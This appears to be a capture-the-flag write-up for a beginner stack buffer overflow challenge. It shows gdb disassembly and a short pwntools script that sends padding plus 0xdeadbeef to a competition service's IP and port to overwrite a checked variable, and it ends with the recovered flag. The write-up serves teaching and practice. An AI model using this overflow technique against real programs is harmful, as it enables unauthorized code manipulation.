

In this pwn challenge with the following description:
```
It's a b0f , Can't be easier than that.

Service : nc 68.183.158.95 8989
```

We were given a normal 64 bit ELF without the source code, so I started with some reverse with Ghidra and the main appears to be a normal algorithm which asks for a string and in the end checks whether a variable is equals to a certain value:



The weird thing is that it reads up to 0x100 bytes, so let's check in gdb the address of the variable filled and the checked one:

```
0x40074f <main+136>:	lea    rax,[rbp-0xe]
0x400753 <main+140>:	mov    esi,0x100
0x400758 <main+145>:	mov    rdi,rax
0x40075b <main+148>:	call   0x4005c0 <fgets@plt>
```

Here we are loading the address of the variable in the register so that fgets can use it to store bytes, let's get the address and it's content after the reading:

```
x/s $rbp-0xe
0x7fffffffe6c2:	"asdasd\n"
```

Here is the checking part:

```
0x400760 <main+153>:	cmp    DWORD PTR [rbp-0x4],0xdeadbeef
0x400767 <main+160>:	jne    0x400777 <main+176>
```

Let's get the address:
```
x/s $rbp-0x4
0x7fffffffe6cc:	"\276\272\376ʐ\a@"
```

So the offset between the two variables is 10 bytes. We can overwrite the content of the checked variables and we can overwrite it with the desired value so that the check si true. So the exploit is as simple:

```python
#!/usr/bin/python2

from pwn import *

padding = 'A'*10
payload = padding + p32(0xdeadbeef)

r = connect('68.183.158.95' , 8989)
r.sendline(payload)
r.interactive()
```

In the end the flag is:
```
d4rk{W3lc0me_t0_th3_w0rld_0f_pwn}c0de
```